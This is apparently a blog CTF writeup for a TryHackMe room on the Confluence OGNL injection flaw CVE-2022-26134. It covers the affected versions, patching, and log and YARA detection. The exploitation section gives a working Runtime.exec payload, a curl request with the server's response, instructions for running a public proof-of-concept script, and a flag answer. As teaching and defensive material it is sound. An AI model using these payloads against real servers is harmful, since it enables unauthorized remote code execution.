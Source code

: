```yaml
---
weight: 3
title: "CTF writeup - Atlassian CVE-2022-26134"
date: {{ .Date }}
lastmod: 2022-08-29T14:16:40+08:00
description: "Another late night CTF on the awesome platform TryHackMe"
featuredImage: "tryhackmebanner.jpg"
hiddenfeaturedImage: false

tags: ["TryHackMe", "CTF", "Linux"]
categories: ["Writeups"]

lightgallery: false
summary: This is a short walkthrough of how to exploit, threat hunt & remediate the Atlassian CVE-2022-26134.
---
```


# Atlassian, CVE-2022-26134

![Untitled](/atlassian/Untitled.png)

On May the 30th, 2022, an organisation named Volexity identified an un-authenticated RCE vulnerability (scoring 9.8 on NIST) within Atlassian's Confluence Server and Data Center editions.

Confluence is a collaborative documentation and project management framework for teams. Confluence helps track project status by offering a centralised workspace for members.

The following versions of Confluence are vulnerable to this CVE:

```
1.3.0 -> 7.4.17
7.13.0 -> 7.13.7
7.14.0 -> 7.14.3
7.15.0 -> 7.15.2
7.16.0 -> 7.16.4
7.17.0 -> 7.17.4
7.18.0 -> 7.18.1

```

You can view the NIST entry for CVE-2022-26134 [here.](https://nvd.nist.gov/vuln/detail/CVE-2022-26134)

# Login portal

![Untitled](/atlassian/Untitled%201.png)

# Explaining the vulnerability

This CVE uses a vulnerability within the OGNL (Object-Graph Navigation Language) expression language for Java (surprise, surprise ... it's Java). OGNL is used for getting and setting properties of Java objects, amongst many other things.

For example, OGNL is used to bind front-end elements such as text boxes to back-end objects and can be used in Java-based web applications such as Confluence. We can see how OGNL is used in the screenshot below. Values are input to a web form, where these values will be stored into objects within the application:

A web page with questions and a input text field to the right of each question, displaying how values input into a web form can be stored in the back-end using OGNL

![Untitled](/atlassian/Untitled%202.png)

*Thanks to [Journaldev.com](http://journaldev.com/) for this example of OGNL in use.*

We can abuse the fact that OGNL can be modified; we can create a payload to test and check for exploits.

# Patching

Atlassian has released an advisory for their products affected by this CVE, which you can read here. To resolve the issue, you need to upgrade your Confluence version. The suggested list at the time of publication is:

```
7.4.17
7.13.7
7.14.3
7.15.2
7.16.4
7.17.4
7.18.1

```

## Detection - Log Files

Confluence is an Apache Tomcat server which has logging located in /opt/atlassian/confluence/logs. You can use commands like grep to search for HTTP GET requests of payloads that are using Java runtime to execute commands. For example:

```bash
grep -R "/%24%7B%40java.lang.Runtime%40getRuntime%28%29.exec%28%22" in catalina.out

```

## Detection - YARA

If you have Yara installed on the server running Confluence, Volexity (the finders of the vulnerability) has created the following Yara rule for you to use, located here.

Unfamiliar with Yara? Check out the Yara room on TryHackMe [here](https://tryhackme.com/room/yara).

# Exploitation

We can abuse the fact that OGNL can be modified; we can create a payload to test and check for exploits.

In order to exploit this vulnerability within OGNL, we need to make an HTTP GET request and place our payload within the URI. For example, we can instruct the Java runtime to execute a command such as creating a file on the server: 

```bash
${@java.lang.Runtime@getRuntime().exec("touch /tmp/thm/")}/  .
```

This will need to be URL encoded, like the following snippet below. You can use thewebsite [https://www.urlencoder.org/](https://www.urlencoder.org/) to help URL encode your payloads (note that your **curl** payload will need to end in a trailing **/** and not **$2F**):

```bash
┌──(kali㉿kali)-[~]
└─$ curl -v [http://10.10.63.161:8090/%24{%40java.lang.Runtime%40getRuntime().exec("touch /tmp/thm")}/](http://10.10.63.161:8090/%24%7B%40java.lang.Runtime%40getRuntime%28%29.exec%28%22touch%20/tmp/thm%22%29%7D/)

- Trying 10.10.63.161:8090...
- Connected to 10.10.63.161 (10.10.63.161) port 8090 (#0)

> GET /%24%7B%40java.lang.Runtime%40getRuntime%28%29.exec%28%22touch%20/tmp/thm%22%29%7D/ HTTP/1.1
Host: 10.10.63.161:8090
User-Agent: curl/7.84.0
Accept: /
> 
- Mark bundle as not supporting multiuse
< HTTP/1.1 302
< X-ASEN: SEN-L18512764
< X-Confluence-Request-Time: 1661613209991
< Set-Cookie: JSESSIONID=106FD01E12D08A53C9C95A3DBD577ADF; Path=/; HttpOnly
< X-XSS-Protection: 1; mode=block
< X-Content-Type-Options: nosniff
< X-Frame-Options: SAMEORIGIN
< Content-Security-Policy: frame-ancestors 'self'
< Location: /login.action?os_destination=%2F%24%7B%40java.lang.Runtime%40getRuntime%28%29.exec%28%22touch+%2Ftmp%2Fthm%22%29%7D%2Findex.action&permissionViolation=true
< Content-Type: text/html;charset=UTF-8
< Content-Length: 0
< Date: Sat, 27 Aug 2022 15:13:30 GMT
<
- Connection #0 to host 10.10.63.161 left intact
```

When looking at the server, we can see that it is vulnerable:

```bash
cmnatic@thm-cve-2022-26134:~$ ls /tmp
hsperfdata_confluence
thm
snap.lxd
```

The file “thm” was succesfully created.

# Proof of concept

There are a couple of ways we can exploit this. One of them is to download a POC by Samy Younsi (Mwqda) written in Python and hosted on GitHub.

First, we need to download the PoC to our host. I have decided to clone to the repository using git for this room.

```bash
git clone <https://github.com/Nwqda/CVE-2022-26134>
cd CVE-2022-26134

```

After navigating to the source code, let's execute the script. Replace "COMMAND" with the command you wish to execute (Remember to use quotation marks when running commands that have special characters and such.)

```bash
python3.9 cve-2022-26134.py <HTTP://10.10.63.161:8090> COMMAND

```

1. Create a payload to identify what user the application is running as? What is the user?
    1. We can see in the screenshot below that the application is running as the user “confluence”.
    
    ![Untitled](/atlassian/Untitled%203.png)
    
2. Finally, craft a payload to retrieve the flag stored at /flag.txt on the server. What is the flag?
    1. THM{OGNL_VULN}
    
    ![Untitled](/atlassian/Untitled%204.png)
    
    # Conclusion
    
    This was a brief showcase of the [CVE-2022-26134](https://nvd.nist.gov/vuln/detail/CVE-2022-26134) OGNL Injection vulnerability. Remember, OGNL is an expression language for Java-based web applications, so this vulnerability will also apply to other web apps running the same classes that Confluence uses!
    
    ## Additional Reading Material
    
    - [Hunting for Confluence RCE [CVE-2022–26134]](https://medium.com/@th3b3ginn3r/hunting-for-cve-2022-26134-confluence-rce-on-linux-server-ae9ce0176b4a)
    - [Exploring and remediating the Confluence RCE](https://www.datadoghq.com/blog/confluence-vulnerability-overview-and-remediation/)